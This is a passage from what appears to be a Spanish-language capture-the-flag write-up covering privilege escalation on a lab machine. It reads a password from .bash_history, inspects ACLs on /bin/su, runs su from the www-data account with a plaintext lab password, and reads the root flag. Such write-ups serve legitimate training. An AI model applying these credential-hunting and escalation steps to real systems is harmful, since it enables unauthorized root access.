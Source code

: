 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
cat .bash_history
```

Aqui encontramos una nueva contraseña. Intentamos ponerla para root

```bash
su root

#Output
-bash: /bin/su: Permission denied

ls -la /bin/su
getfacl /bin/su
```

Podemos ver con el comando 
```bash
 getfacl /bin/su 
```
 que hay un privilegio especial que hace que el usuario loki solo pueda leer el binario **su**
pero sin poder ejecutarlo.

Como tenemos acceso a la maquina tambien con www-data, podemos desde hay lanzar el comando **su**

```bash
su root
Password: lokipasswordmischieftrickery

whoami

#Output
root

cat /root/root.txt
find / \-name root.txt 2>/dev/null
cat /usr/lib/gcc/x86_64-linux-gnu/7/root.txt
```

Ya somos root y podemos leer la flag.


